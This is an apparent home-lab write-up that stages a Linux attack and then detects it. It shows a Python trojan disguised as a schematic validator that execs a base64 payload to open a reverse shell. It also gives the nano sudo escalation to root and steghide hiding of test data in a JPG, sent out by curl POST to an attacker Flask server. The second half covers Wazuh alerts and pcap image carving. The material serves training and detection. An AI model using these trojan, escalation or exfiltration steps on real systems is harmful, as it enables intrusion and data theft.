# TECH-BUREAU SERIES: PHASE.03
## TROJAN-GTFOBIN-STEGANOGRAPHY.
### WHATS SHOWCASED:
<section>
  <ul class="hover-card"> 
    <li>
      <strong>OFFENSE:</strong> Creating a Trojan, gaining Root and Steganography shenanigans.
    </li>
  </ul>
  <ul class="hover-card"> 
    <li>
      <strong>DEFENSE:</strong> Observing SHELL traffic, setting alerts on binaries, reconstructing an image from a pcap file. 
    </li> 
  </ul>
</section>

### The initial Setup

ead_engineer@TECH-BUREAU-UBUNTU-24:~/PROJECT.5527$ ls
Frame_specs.txt  T1:Pennsylvania.jpg  VALIDATOR_v3.0.py
T1:Casing.jpg    T1_test_results.txt  Valve_specs.txt
lead_engineer@TECH-BUREAU-UBUNTU-24:~/PROJECT.5527$ 
...

# AT4K-3XPR3S rolling out.

## 01.TROJAN IS EXECUTED BY USER

<pre data-label="TROJAN" style="--delay: 0s;"><code>
<strong>lead_engineer@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ python3 VALIDATOR_v3.0.py 
---------------------------------------------
TECH-BUREAU LINUX SCHEMATIC VALIDATOR v3.0
---------------------------------------------

Enter path to schematic file (.txt): <strong>Frame_specs.txt</strong>
[*] Opening Frame_specs.txt...
[*] Analyzing metadata and bit-depth...
[+] SUCCESS: No inconsistencies detected.

Analysis complete. Closing validator...
</code></pre>

Here the user lead_engineer is enjoying the convenience of a piece of python script taht allows for hypothetical error checking in his work. The Validator asks for a file path, the file path is provided. Actualy now that i think about it would be cool to make a version that just sends out the file to teh Comand center...but anyhow. The pyton script works as indended and in the meantime a background process initializes a reverse shell with out attack box. How handy.

### CODE SAMPLE

<pre data-label="V4LIDA0R" style="--delay: 1s;"><code>
<strong># ---‹‹‹ 01.V4LIDA0R ›››---</strong>
<strong># 01. --< IMPORT MODULES >--</strong>

import socket
import subprocess
import os
import time
import base64

<strong># 02. --< BASE64 PAYLOAD >--</strong>
  
payload = "aW1wb3J0IG9zLCBzb2NrZXQsIHN1YnByb2Nlc3MKCnBkID0gb3MuZm9yaygpCmlmIHBk...

<strong># 03. --< PREPARE PAYLOAD >--</strong>
  
def start_background_sync():
    try:
        exec(base64.b64decode(payload))
    except Exception:
        pass

<strong># 04. --< FUNCTIONAL PYTHON SCRIPT >--</strong>
  
def interactive_parser():
    print("-" * 45)
    print("TECH-BUREAU LINUX SCHEMATIC VALIDATOR v3.0")
    print("-" * 45)
    ...

<strong># 05. --< INITIATE SHELL >--</strong>

start_background_sync()

<strong># 06. --< USER INPUT >--</strong>  

interactive_parser()
</code></pre>

In this sample we see an example of base64 obfuscation, the malicious payload is rolled up in to a long string that upon script execution is translated in to its original form and the reverse shell can comence. Nifty.

## 02.BECOMING ROOT

After recieving the connection over our netcat listener port 4433 we stabilise teh shell and begin carying out our most daring exfiltration yet. But we need to gain the root priviliges for that. So we check for any users that can run programs with elevated priviliges with no need for a password.

<pre data-label="NOPASSWD" style="--delay: 0.7s;"><code>
<strong>lead_engineer@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ sudo -l
Matching Defaults entries for lead_engineer on TECH-BUREAU-UBUNTU-24:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User <strong>lead_engineer</strong> may run the following commands on TECH-BUREAU-UBUNTU-24:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: <strong>/usr/bin/nano</strong>
</code></pre>

We have **nano** as our contender for the <strong>GTFOBIN</strong> escalation. We need to open **nano** and run a few commands in sequence 
<strong>Ctrl + R, Ctrl + X, reset; sh 1>&0 2>&0, Enter</strong>

##.03 STEGONOGRAPHY

First we install <strong>Steghide</strong> on to our target machine 
via <strong>sudo apt-get update && sudo apt-get install steghide -y</strong> 
Than prepare everything for exfiltration.

### CAT SCHEMATIC
<pre data-label="CAT" style="--delay: 2.2s;"><code>
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527# cat T1_test_results.txt 
Project 5527/T1 Testing Results

T1 tested at the plant in Altoona against a M1a 4-8-2 Mountain-type locomotive.
With identical weight on the driving wheels:
The T1 generated 6,552 hp, which was 46% more than the M1a.
We have confidence that it could out perform a four-unit, 5,400-hp Diesel at any speed over 26 mph.

Verdict: Start Full Scale Production upon Finishing Phase 03
</code></pre>

Data confirmed. Now all we need is an image file to hide it in.

### COPY/RENAME THE JPG
<pre data-label="SEABASS" style="--delay: 1.5s;"><code>
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527# cp T1:Casing.jpg Seabass_Trophy.jpg
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527# ls
Frame_specs.txt     T1:Casing.jpg        <strong>T1_test_results.txt</strong>  Valve_specs.txt
<strong>Seabass_Trophy.jpg</strong>  T1:Pennsylvania.jpg  VALIDATOR_v3.0.py
</code></pre>
We copy a schematic image and rename it to something our engineer might share over the internet, 
we have learned that he infact is an avid fishing enthusiast.

### STEGHIDE
<pre data-label="STEGHIDE" style="--delay: 0s;"><code>
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ steghide embed -cf Seabass_Trophy.jpg -ef T1_test_results.txt
Enter passphrase: <strong>AT4K-3XPR3S</strong>
Re-Enter passphrase: <strong>AT4K-3XPR3S</strong>
embedding <strong>"T1_test_results.txt"</strong> in <strong>"T1:Casing.jpg"</strong>... done
</code></pre>
And just like that we have an inconspicuous image, that contains text data that we can now sneakily send to a hypothetical inocent looking website that is actualy a disguised upload server for our pilfered data.

## 04.BEGIN EXFILTRATION
### SERVER SPINUP
<pre data-label="SERVER" style="--delay: 0.5s;"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.03$ python3 FLASK_uploader.py 
 * Serving Flask app 'FLASK_uploader'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.1.16:<strong>4040</strong>
Press CTRL+C to quit
</code></pre>
In this case we use a python Flask server to emulate a website so the data can be sent out via a standart POST. 

### EXFILTRATE

<pre data-label="POST" style="--delay: 0.9s;"><code>
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ curl -X POST http://192.168.1.16:4040/upload
  -H "X-Auth-Token: <strong>AT4K-3XPR3S</strong>"
  -F "file=@<strong>Seabass_Trophy.jpg</strong>"
[*] File Seabass_Trophy.jpg exfiltrated successfully.
</code></pre>
We also encorporated a authentication function with the X-Auth-Token, to make sure noone can use the server but us. The exfiltration is a success. We just need to get teh data out of teh jpg file on our attack machine and upon succes, erase the Seabass Steg file we created and we are done here.

### REVERSE STEGHIDE

<pre data-label="DATA OUT" style="--delay: 0s;"><code>
<strong>square@AT4K-3XPR3S:</strong>~/BUREAU.03/exfiltrated_data$ steghide extract -sf Seabass_Trophy.jpg
steghide extract -sf <strong>Seabass_Trophy.jpg</strong>
Enter passphrase: <strong>AT4K-3XPR3S</strong>
wrote extracted data to "T1_test_results.txt".
</code></pre>

### DELETE AND EXIT

<pre data-label="RM" style="--delay: 3.2s;"><code>
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ rm Seabass_Trophy.jpg
<strong>root@TECH-BUREAU-UBUNTU-24:</strong>~/PROJECT.5527$ exit
 
^[c^[[!p^[[?3;4l^[[4l^[>^[[?69l
</code></pre>

Primary goal achieved, data secured. 
Thank You and Good Bye.

  
  ⦿
  

# TECH-BUREAU ROLLING OUT

## 01.WAZUH ALERTS



<small>“01.wazuh-alerts.png”<small>

Again we can observe the entire attack chain. So neat and organised. And this time arround we have a couple of Wazuh defalt alerts that snuck in, very helpful. Let dive in to teh analisys.

## 02.WAZUH OUTBOUND TRAFFIC



<small>“02.wazuh-4433-out.png”<small>

We have setup the rule so that any trafic going out thats not port 22, 80, 443, 3306 will triger an alert, and print the precise port used. How handy.

## 09.WIRESHARK SHELL TRAFFIC



<small>“09.wireshark-shell-traffic.png”<small>

We see loads of trafic going to port 4433, we want to see the stream imediatly.

## 10.WIRESHARK SHELL STREAM



<small>“10.wireshark-shell-stream.png”<small>

Here is but a snippet, all in broad daylight, unencrypted and loud, we can see every single comman on display from start to finish.

#### ‹‹‹REVERSE SHELL CONFIRMED›››

## 03.WAZUH CAT



<small>“03.wazuh-cat.png”<small>

We know the drill by now, guarded file accessed.

## 04.WAZUH PACKAGE INSTALLED



<small>“04.wazuh-package-installed.png”<small>

Here we are alerted that a new package is installed by the user root, the program in question is STEGHIDE.

## 05.WAZUH STEGHISE USED


<small>“05.wazuh-steghide-used.png”<small>

STEGHIDE is on the watched programs list. It has been run.

## 07.WAZUH CURL



<small>“07.wazuh-CURL.png”<small>

Here we see that CURL has been used, and it is on the watch list.

## 06.WAZUH OUTBOUND TRAFFIC 4040



<small>“06.wazuh-4040-out.png”<small>

To add to the evidence we can see that a non standart port 4040 is in use.

## 11.WIRESHARK CURL-CROSS



<small>“11.wireshark-post-traffic.png”<small>

Suspicious POST request to a website, over a nonstandart port 4040. I would run the website ip through VirusTotal in a real scenario. Lets see what teh stream has to show us.

### RULE USED:



<small>“13.rule-outbound-traffic.png”<small>

## 12.WIRESHARK CURL-STREAM



<small>“12.wireshark-post-stream.png”<small>

Here we can see the details of a file named Seabass_Rtophy.jpeg a POST /upload folder destination an authentication token, and an important detail, curl is used as an agent, in a normal scenario our user wold use the internet browser to upload his image, in which case the agnet would be something like Mozilla/5.0. 

### RULE USED:



<small>“16.rule-curl-used.png”<small>

#### ‹‹‹EXFILTRATION CONFIRMED›››

## 08.WAZUH FILE DELETED



<small>“08.wazuh-delete.png”<small>

This would be abuilt in Wazuh alert, we can see clearly the file in question. 

#### ‹‹‹DATA DESTROYED››› 

## 17.GHEX CARVING



<small>“17.ghex-carving.png”<small>

Using a simple hex tool like GHEX allows us to cleanup the rax data and make sure that we only have the jpeg without any pcap traffic headers. Jpeg files start with a FF D8 FF and finish with a FF D9. So we delete everything before and after our markers, and save the file.

## 18.RECONSTRUCTED IMAGE


<small>“T1:Casing.jpg”<small>

Here is the jpeg file that we reconstructed, and what about teh hidden data?

## 19.REVERSE STEGANOGRAPHY?


<small>“18.pcap-image-steghide.png”<small>

Steghide info shows that there is something inside, lets asume we have cracked the password and entered it correctly. That provides the exact content taht has been stolen.

## LESSONS LEARNED

* Creating a rudimentary Trojan 
* Using the GTFOBINS for gaining Root 
* Steganography can be a powerful exfiltration medium. 
 
This concludes the TECH-BUREAU series, up next 
lets take a look at some cheeky malware shall we? 
Continue? 
 
[MALWARE-BOILER Series: main hub ](./MALWARE-BOILER-main.md)  
*Making a few Trojans and acting rather impish!*

  
  ⦿
  

[3.3]

